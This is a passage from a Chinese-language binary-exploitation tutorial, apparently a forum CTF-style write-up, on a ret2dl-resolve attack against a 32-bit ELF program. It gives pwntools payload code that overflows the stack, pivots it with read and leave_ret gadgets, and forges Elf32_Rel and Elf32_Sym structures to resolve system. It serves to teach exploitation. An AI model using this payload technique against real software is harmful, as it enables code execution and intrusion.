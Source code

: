 这里寻找的 relplt_addr，dynsym_addr，dynstr_addr 一般都是位于 ELF 文件头部的 LOAD 段。用 readelf -S binary 也可以看到：

![](https://bbs.pediy.com/upload/attach/202108/904686_UTHV3JEKV2DXFWC.jpg)

①relplt_addr：0x080482b0

![](https://bbs.pediy.com/upload/attach/202108/904686_ER29FZFDX8M2C8P.jpg)

②dynsym_addr：0x080481cc

![](https://bbs.pediy.com/upload/attach/202108/904686_6ZTZ3A7333MR33Y.jpg)

③dynstr_addr：0x0804822c

![](https://bbs.pediy.com/upload/attach/202108/904686_8V6FXSABQRWPCVH.jpg)

(2) 再进行栈劫持：

```
#注释头
 
payload = ""
payload += 'A'*140 #padding
payload += p32(read_plt) 
#调用read函数往新栈写值，防止leave; retn到新栈后出现ret到地址0上导致出错
payload += p32(pop3_ret) 
#read函数返回地址，从栈上弹出三个参数从而能够将esp拉到pop_ebp_ret的地方来执行
payload += p32(0) #fd = 0
payload += p32(new_stack_addr) #buf = new_stack_addr
payload += p32(0x400) #size = 0x400
payload += p32(pop_ebp_ret)
#把新栈顶给ebp
payload += p32(new_stack_addr)
payload += p32(leave_ret)
#模拟函数返回，利用leave指令把ebp的值赋给esp，完成栈劫持，同时ebp指向第二段payload的第一个内容，eip为第二段payload中的plt0_addr
 
io.send(payload) #此时程序会停在使用payload调用的read函数处等待输入数据

```

(3) 伪造两个结构体和必要的数据：

```
#注释头
 
 
fake_Elf32_Rel_addr = new_stack_addr + 0x50
#在新栈上选择一块空间放伪造的Elf32_Rel结构体，结构体大小为8字节
 
fake_Elf32_Sym_addr = new_stack_addr + 0x5c 
#在伪造的Elf32_Rel结构体后面接上伪造的Elf32_Sym结构体，结构体大小为0x10字节
 
fake_reloc_arg = fake_Elf32_Rel_addr - relplt_addr 
#计算伪造的reloc_arg
 
fake_st_name_addr = new_stack_addr + 0x6c - dynstr_addr 
#伪造的Elf32_Sym结构体后面接上伪造的函数名字符串system_addr 
 
fake_r_info = ((fake_Elf32_Sym_addr - dynsym_addr)/0x10) << 8 | 0x7 
#伪造r_info，偏移要计算成下标，除以Elf32_Sym的大小，最后一字节为0x7
 
 
fake_Elf32_Rel_data = ""
fake_Elf32_Rel_data += p32(write_got) 
#r_offset = write_got，以免重定位完毕回填got表的时候出现非法内存访问错误
fake_Elf32_Rel_data += p32(fake_r_info)
 
```